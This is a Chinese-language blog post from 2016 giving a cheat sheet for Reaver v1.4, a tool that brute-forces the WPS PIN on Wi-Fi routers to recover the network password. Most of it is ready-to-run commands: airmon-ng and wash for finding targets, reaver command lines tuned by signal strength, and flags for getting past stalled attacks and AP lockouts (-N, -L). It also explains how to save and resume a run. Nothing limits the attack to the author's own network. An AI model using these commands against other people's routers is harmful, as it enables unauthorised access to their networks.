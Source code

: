 ```yaml
---  
layout: post  
title: Reaver v1.4 用法整理  
date: 2016-02-16 13:56:16  +0800  
categories: 记录  
---  
```

  
#使用方法：  
airmon-ng start wlan0 //启动mon0监控  
reaver -i mon0 -b MAC -a -S -vv //普通用法  
如果，90.9%进程后死机或停机，请记下PIN前四位数，用指令：  
reaver -i mon0 -b MAC -a -vv -p XXXX(PIN前四位数)  
其他命令  
airodump-ng mon0 用来扫描周围无线信号  
wash -i mon0 -C 这个是用来检测周围无线支持PIN的路由  
如果一直pin不动，尝试加-N参数  
reaver -i mon0 -b xx:xx:xx:xx:xx:xx -d 0 -vv -a -S -N  
也可以加延时 -t 3 -b 3  
常用参数释疑  
-i 监听后接口名称 网卡的监视接口，通常是mon0  
-b 目标mac地址 AP的MAC地址  
-a 自动检测目标AP最佳配置  
-S 使用最小的DH key，可以提高PJ速度  
-vv 显示更多的非严重警告  
-d 即delay每穷举一次的闲置时间 预设为1秒  
reaver -i mon0 -b MAC -d 0  
用上述指令可以大幅加快PJ速度 但是有些AP可能受不了  
-c （后跟频道数） 指定频道,可以方便找到信号  
-p PIN码四位或八位 //已知pin码前4位可以带此参数，指定从这个数字开始pin。可以用8位直接找到密码。  
-N 不发送NACK信息（如果一直pin不动，可以尝试这个参数）  
-n 对目标AP总是发送NACK，默认自动  
-t 即timeout每次穷举等待反馈的最长时间，如果信号不错，可以这样设置  
reaver -i mon0 -b MAC -d 0 -t .5  
-m, –mac= 指定本机MAC地址，在AP有MAC过滤的时候需要使用  
小结-PJ时应因状况调整参数:  
信号非常好:  
reaver -i mon0 -b MAC -a -S -vv -d 0 -c 1  
信号普通:  
reaver -i mon0 -b MAC -a -S -vv -d .5 -t .5 -c 1  
信号一般:  
reaver -i mon0 -b MAC -a -S -vv -c 1  
当出现有百分数时你就可以用crtl+c来暂停，它会将reaver的进度表文件保存在  
1.3版：  
/etc/reaver/MAC地址.wpc  
1.4版：  
/usr/local/etc/reaver/MAC地址.wpc  
用资源管理器，手工将以MAC地址命名的、后辍为wpc的文件拷贝到U盘或硬盘中，  
下次重启动后，再手工复制到/etc/reaver/ 目录下即可。  
不是所有的路由都支持pin学习。AP关闭了WPS、或者没有QSS滴，会出现  
WARNING: Failed to associate with XX:XX:XX:XX:XX:XX (ESSID: XXXX)  
学习过程中也可随时随地按Ctrl+C终止PJ，重复同一个PIN码 或 timeou t可终止，reaver会自动保存进度。  
继续上次的PJ，则再次在终端中发送:  
reaver -i mon0 -b MAC -vv  
这条指令下达后，会让你选y或n，选y后就继续了  
当reaver确定前4位PIN密码后，其工作完成任务进度数值将直接跳跃至90.9%以上，也就是说只剩余一千个密码组合了（总共一万一千个密码）。  
参数详细说明:  
-m, –mac= MAC of the host system  
指定本机MAC地址，在AP有MAC过滤的时候需要使用  
-e, –essid= ESSID of the target AP  
路由器的ESSID，一般不用指定  
-c, –channel= Set the 802.11 channel for the interface (implies -f)  
信号的频道，如果不指定会自动扫描  
-o, –out-file= Send output to a log file [stdout] 标准输出到文件  
-s, –session= Restore a previous session file  
恢复进程文件  
-C, –exec= Execute the supplied command upon successful pin recovery  
pin成功后执行命令  
-D, –daemonize Daemonize reaver  
设置reaver成Daemon  
-a, –auto Auto detect the best advanced options for the target AP  
对目标AP自动检测高级参数  
-f, –fixed Disable channel hopping  
禁止频道跳转  
-5, –5ghz Use 5GHz 802.11 channels  
使用5G频道  
-v, –verbose Display non-critical warnings (-vv for more)  
显示不重要警告信息 -vv 可以显示更多  
-q, –quiet Only display critical messages  
只显示关键信息  
-h, –help Show help  
显示帮助  
-vv 显示更多的非严重警告  
高级参数:  
-p, –pin= Use the specified 4 or 8 digit WPS pin  
直接读取psk（本人测试未成功，建议用网卡自带软件获取）  
-d, –delay= Set the delay between pin attempts [1] pin间延时，默认1秒，推荐设0  
-l, –lock-delay= Set the time to wait if the AP locks WPS pin attempts [60] AP锁定WPS后等待时间  
-g, –max-attempts= Quit after num pin attempts  
最大pin次数  
-x, –fail-wait= Set the time to sleep after 10 unexpected failures [0] 10次意外失败后等待时间，默认0秒  
-r, –recurring-delay= Sleep for y seconds every x pin attempts  
每x次pin后等待y秒  
-t, –timeout= Set the receive timeout period [5] 收包超时，默认5秒  
-T, –m57-timeout= Set the M5/M7 timeout period [0.20] M5/M7超时，默认0.2秒  
-A, –no-associate Do not associate with the AP (association must be done by another application)  
不连入AP（连入过程必须有其他程序完成）  
-N, –no-nacks Do not send NACK messages when out of order packets are received  
不发送NACK信息（如果一直pin不动，可以尝试这个参数）  
-S, –dh-small Use small DH keys to improve crack speed  
使用小DH关键值提高速度（推荐使用）  
-L, –ignore-locks Ignore locked state reported by the target AP  
忽略目标AP报告的锁定状态  
-E, –eap-terminate Terminate each WPS session with an EAP FAIL packet  
每当收到EAP失败包就终止WPS进程  
-n, –nack Target AP always sends a NACK [Auto] 对目标AP总是发送NACK，默认自动  
-w, –win7 Mimic a Windows 7 registrar [False] 模拟win7注册，默认关闭  
   
   
Ubuntu 14下出现reaver进度不能保存的手动使用-s参数指定文件保存位置即可